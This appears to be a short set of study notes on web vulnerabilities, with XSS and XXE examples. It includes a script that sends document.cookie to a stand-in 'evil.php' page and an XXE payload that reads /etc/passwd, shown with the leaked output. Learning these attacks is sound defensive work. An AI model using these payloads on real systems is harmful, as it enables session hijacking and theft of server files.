	- XSS
		- <SCRIPT type="text/javascript">
		  var adr = '../evil.php?cakemonster=' + escape(document.cookie);
		  </SCRIPT>
		- https://insecure-website.com/status?message=All+is+well.
		  ```
		  <p>Status: All is well.</p>
		  ```
	- XXE(XML External Entity)
		- ```
		  <?xml version="1.0" encoding="UTF-8"?>
		  <stockCheck><productId>381</productId></stockCheck>
		  ```
		- ```
		  <?xml version="1.0" encoding="UTF-8"?>
		  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		  <stockCheck><productId>&xxe;</productId></stockCheck>
		  ```
		- ```
		  Invalid product ID: root:x:0:0:root:/root:/bin/bash
		  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
		  bin:x:2:2:bin:/bin:/usr/sbin/nologin
		  ...
		  ```
